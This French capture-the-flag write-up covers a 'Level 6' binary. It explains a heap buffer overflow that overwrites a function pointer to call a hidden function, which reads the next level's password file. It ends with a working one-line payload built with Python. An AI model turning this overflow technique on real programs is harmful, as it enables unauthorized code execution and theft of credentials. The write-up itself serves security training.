

# Level 6



Liste des fonctions:
```
$ objdump -t ./level6

./level6:     file format elf32-i386

SYMBOL TABLE:
...
08048454 g     F .text  00000014              n
08048468 g     F .text  00000014              m
0804847c g     F .text  00000058              main
...
```
Cette executable comprend trois fonctions:
- `main` qui appelle `m` via un pointeur de fonction
- `m` qui va juste afficher `Nope`
- `n` qui va appeler `system("/bin/cat /home/user/level7/.pass")`, mais cette fonction n'est jamais appelée

La fonction `main` alloue deux fois à la suite une fois de `0x40` (64) bytes pour pouvoir stocker son premier argument et une autre fois `4` bytes pour stocker l'addresse de la fonction `m`.

On va pouvoir faire un buffer overflow sur le premier argument pour écraser l'addresse de la fonction `m` par celle de la fonction `n`.
On pourait directement mettre l'addresse de `n` dans le premier argument après les 64 bytes mais ceci ne va pas marcher, car un malloc n'alloue pas la taille exacte demandée mais une taille supérieure à celle demandée pour pouvoir stocker des metadata.

Donc on va devoir rajouter 8 bytes (*Cela peut dépendre du système*) au 64 bytes pour pouvoir écraser l'addresse de `m` par celle de `n`.
```bash
./level6 $(python -c 'print("A"*72 + "\x54\x84\x04\x08")')
```
